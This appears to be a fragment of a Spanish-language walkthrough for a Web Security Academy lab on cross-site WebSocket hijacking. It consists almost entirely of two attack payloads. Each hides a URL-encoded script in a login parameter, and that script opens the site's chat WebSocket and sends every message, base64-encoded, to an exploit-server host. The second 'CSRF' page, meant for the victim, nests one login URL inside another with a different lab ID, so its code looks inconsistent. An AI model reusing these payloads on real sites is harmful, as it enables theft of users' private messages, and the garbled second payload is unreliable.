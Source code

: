 <figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

```
<script>
  document.location = "https://cms-0aef0030037a119f80e635b7007400fc.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%6c%65%74%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%22%77%73%73%3a%2f%2f%30%61%31%66%30%30%65%31%30%34%36%34%37%38%62%33%38%30%62%34%65%34%38%33%30%30%65%35%30%30%66%36%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%22%29%3b%0a%0a%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%7d%3b%0a%0a%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%74%2e%64%61%74%61%3b%0a%20%20%66%65%74%63%68%28%0a%20%20%20%20%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%36%66%30%30%31%64%30%34%32%33%37%38%37%30%38%30%34%36%65%33%31%62%30%31%62%30%30%30%39%32%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%73%67%3d%22%20%2b%20%62%74%6f%61%28%6d%65%73%73%61%67%65%29%0a%20%20%29%3b%0a%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=my_password";
</script>
```

Enviamos a la víctima.

```
<html>
    <head>
        <title>CSRF</title>
    </head>
    <body>
        <script>
            document.location = 'https://cms-0a1f00e1046478b380b4e48300e500f6.web-security-academy.net/login?username=https://cms-0aef0030037a119f80e635b7007400fc.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%6c%65%74%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%22%77%73%73%3a%2f%2f%30%61%31%66%30%30%65%31%30%34%36%34%37%38%62%33%38%30%62%34%65%34%38%33%30%30%65%35%30%30%66%36%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%22%29%3b%0a%0a%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%7d%3b%0a%0a%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%74%2e%64%61%74%61%3b%0a%20%20%66%65%74%63%68%28%0a%20%20%20%20%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%36%66%30%30%31%64%30%34%32%33%37%38%37%30%38%30%34%36%65%33%31%62%30%31%62%30%30%30%39%32%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%73%67%3d%22%20%2b%20%62%74%6f%61%28%6d%65%73%73%61%67%65%29%0a%20%20%29%3b%0a%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=my_password';
        </script>
    </body>
</html>

```
